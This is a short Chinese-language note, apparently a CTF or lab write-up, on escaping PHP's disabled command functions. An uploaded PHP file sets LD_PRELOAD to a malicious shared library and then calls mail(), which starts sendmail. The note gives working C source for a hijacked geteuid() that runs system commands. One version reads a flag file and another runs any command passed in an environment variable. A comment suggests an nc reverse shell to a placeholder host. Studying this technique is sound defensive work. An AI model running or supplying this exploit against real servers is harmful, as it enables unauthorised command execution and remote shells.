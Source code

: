 ```bash
#cat 1.txt | grep execve
```

检查调用了哪些子进程，execve不会创建新进程，而是在原有进程的基础上执行另一个程序，进程ID保持不变。

发现有一个sendmail   ，readelf发现调用geteuid函数

自己写一个.so动态链接库，写一个恶意的geteuid函数   要先unsetenv("LD_PRELOAD")

然后命令执行putenv("LD_PRELOAD=./demo.so");mail('','','','');

![image-20250805112204846](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20250805112204846.png)

具体应用：

目标可以直接使用蚁剑连接，但是被限制只能访问当前目录和/tmp，命令执行函数被全部禁用。putenv可以使用

使用蚁剑上传一个.php文件，设置LD_PRELOAD为要一起上传的恶意.so库文件

```php
<?php
putenv("LD_PRELOAD=./demo.so");
mail('','','','');
?>
```

恶意函数如下：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(){
	system("cat /flag > /tmp/flag");#也可以直接nc反弹shell    nc xxxx  -e /bin/bash
}
int geteuid(){
	unsetenv("LD_PRELOAD");#最好写不然有时候会报错
	payload();
}
```

然后访问上传的.php文件，即可在/tmp下找到flag文件

如果要传递任意指令，则可以如下：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid(){
    const char* cmdline = getenv("EVIL_CMDLINE");
    if(getenv("LD_PRELOAD") == NULL)
        return 0;
    unsetenv("LD_PRELOAD");
    system(cmdline);
}
```
